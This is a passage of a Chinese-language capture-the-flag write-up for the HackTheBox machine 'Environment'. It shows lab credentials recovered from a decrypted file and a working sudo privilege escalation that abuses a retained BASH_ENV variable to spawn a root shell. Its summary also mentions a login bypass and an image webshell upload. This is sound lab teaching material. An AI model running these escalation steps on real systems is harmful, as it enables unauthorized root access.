 获取到**message.txt**，其中就有密码

```
www-data@environment:/tmp$ cat message.txt 
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!    // password !!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

![](./images/image-9.png)

## Root

查看`sudo -l`

```
hish@environment:~$ sudo -l
[sudo] password for hish: 
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

其中可以看到`env_keep`保留了`ENV`和`BASH_ENV`两个环境变量因此可以用于绕过

```
hish@environment:~$ echo 'bash -p' > exp.sh
hish@environment:~$ chmod +x exp.sh 
hish@environment:~$ sudo BASH_ENV=./exp.sh /usr/bin/systeminfo 
root@environment:/home/hish# id
uid=0(root) gid=0(root) groups=0(root)
root@environment:/home/hish# cat /root/root.txt 
943dd249259dxxxxxxxxxxxx
root@environment:/home/hish# 
```

## Summary

`User`: 登录**报错信息**中泄露出源码，可以通过设置**环境变量**进行绕过登录。后台上传图片马，后缀用**点**绕过获得`www-data`权限，`backup`目录中泄露了`gpg`文件，并且密钥可读，可以直接解密到`hish`的密码。

`Root`: `sudo`环境变量引入。

这个机器如其名，和环境有关。
